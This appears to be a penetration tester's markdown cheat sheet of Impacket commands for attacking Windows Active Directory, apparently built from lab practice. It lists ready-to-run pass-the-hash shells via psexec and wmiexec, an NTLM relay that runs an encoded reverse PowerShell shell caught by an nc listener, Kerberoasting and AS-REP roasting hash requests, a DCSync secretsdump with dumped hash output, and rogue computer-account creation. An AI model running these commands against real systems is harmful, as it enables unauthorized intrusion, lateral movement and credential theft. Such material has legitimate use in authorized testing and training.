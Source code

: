 # impacket
- <https://github.com/fortra/impacket>

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself.





## PtH

```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b 
Administrator@192.168.50.212


C:\Windows\system32> whoami
nt authority\system
```

```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212


C:\>whoami
files02\administrator
```


We can also use one of the other impacket scripts like `wmiexec.py` to obtain a shell 
as the user we used for authentication. On Kali, we would use `impacket-wmiexec` 
along with the arguments we used for `impacket-psexec`.

## wmiexec
```
impacket-wmiexec localadmin@10.10.11.14 -hashes "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae"


# Impacket's wmiexec.py can be used to get a shell
impacket-wmiexec [DOMAIN]/[USERNAME]:[PASSWORD]@[IP]
impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.129.208.12
```







## Relaying Net-NTLMv2

```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc [ENCODED REVERSER POWERSHELL]
```


And on the ATTACKER MACHINE start a `nc` listener on the port the reverse shell is pointing at.










##  SPN
SPNs that are running under a user account:

```
impacket-GetUserSPNs active.htb/svc_tgs -dc-ip 10.10.10.100 -request

GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request
```








## AS-REP Roasting

```
# Just list users with "Do not require Kerberos preauthentication" enabled

impacket-GetNPUsers [DOMAIN/[USERNAME (opt):PASSWORD (opt)]] -dc-ip [DOMAIN CONTROLLER IP]

impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] corp.com/pete



# get the hash
impacket-GetNPUsers -dc-ip [DOMAIN CONTROLLER IP] -request -outputfile [OUTPUT FILE NAME] corp.com/pete
```

This will show the user account option "Do not require Kerberos preauthentication" enabled, meaning it's vulnerable to AS-REP Roasting.





## Kerberoasting

Use `impacket-GetUserSPNs` with the IP of the domain controller as the argument for `-dc-ip`.

Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash.

As before, we can use `-request` to obtain the TGS and output them in a compatible format for Hashcat.


```
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd
sudo impacket-GetUserSPNs htb.local/asmith:passw0rd -request

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

NOTE: if `impacket-GetUserSPNs` throws the error "KRB_AP_ERR_SKEW(Clock skew too great)" we need to synchronize the time of the Kali machine with the domain controller with `ntpdate` or `rdate`.





## dcsync

impacket-secretsdump on our non-domain joined Kali machine

```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70

impacket-secretsdump -just-dc-user krbtgt corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.166.70


# Output
...
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
# This is the hash: 08d7a47a6f9f66b97b1bae4178747494
...
```












## MSSQL
```
impacket-mssqlclient ARCHETYPE/sql_svc@${ip} -windows-auth

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
```




## PSExec
```
impacket-psexec administrator@${ip}
python3 psexec.py administrator@{TARGET_IP}
```







## add computer
```
impacket-addcomputer '[DOMAIN]/[USERNAME]' -method [METHOD] -computer-name '[NEW COMPUTER_NAME]' -computer-pass '[NEW COMPUTER_PASSWORD]' -dc-ip [DC_IP_ADDRESS]


impacket-addcomputer 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.10.11.222

```
















